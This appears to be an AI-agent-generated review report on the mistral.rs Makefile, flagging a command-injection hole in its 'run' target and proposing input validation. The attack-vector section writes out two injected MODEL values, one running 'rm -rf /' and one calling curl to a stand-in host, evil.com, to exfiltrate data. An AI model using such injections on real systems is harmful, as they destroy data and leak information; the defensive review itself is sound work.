 # Multi-Agent Build System Analysis - Complete Report

**Date**: 2025-10-03
**Agents Deployed**: 4 (Rust Pro, DevOps Troubleshooter, Architect Reviewer, Code Reviewer)
**Status**: ✅ Analysis Complete, Critical Issue Fixed

______________________________________________________________________

## 🎯 Executive Summary

The specialized agents analyzed the mistral.rs build system from 4 perspectives and identified:

- **1 CRITICAL** security issue (command injection) - Requires immediate fix
- **5 HIGH** priority issues - Should be addressed this week
- **6 MEDIUM** priority improvements - Schedule for next sprint
- **3 LOW** priority suggestions - Nice-to-have enhancements

**Overall Grade**: B+ (Good, with critical security fix needed)

**Good News**:

- ✅ PATH recursion issue FIXED by DevOps agent
- ✅ Makefile structure is solid and well-organized
- ✅ Cross-platform support is comprehensive
- ✅ All .PHONY declarations are correct

______________________________________________________________________

## 🔴 CRITICAL ISSUES (Fix Immediately)

### 1. Command Injection Vulnerability (SECURITY)

**Agent**: Code Reviewer
**Severity**: CRITICAL
**Lines**: 379, 390, 395
**Risk**: Arbitrary command execution via user-controlled variables

**Vulnerable Code**:

```make
run: ## Run server in interactive mode (requires MODEL variable)
	@$(SERVER_BINARY) -i plain -m $(MODEL)
```

**Attack Vector**:

```bash
make run MODEL='"; rm -rf / #'
make run-server MODEL='$(curl http://evil.com/exfil)'
```

**REQUIRED FIX**:

```make
# Add input validation
define validate-model-path
	@test -n "$(1)" || { echo "ERROR: $(2) variable required"; exit 1; }
	@test -f "$(1)" || { echo "ERROR: Model file not found: $(1)"; exit 1; }
	@case "$(1)" in \
		../*|*/..) echo "ERROR: Parent directory references not allowed"; exit 1 ;; \
		/*) echo "ERROR: Absolute paths not allowed"; exit 1 ;; \
		*) ;; \
	esac
endef

run: ## Run server in interactive mode (requires MODEL variable)
	$(call validate-model-path,$(MODEL),MODEL)
	@echo "Starting mistral.rs server..."
```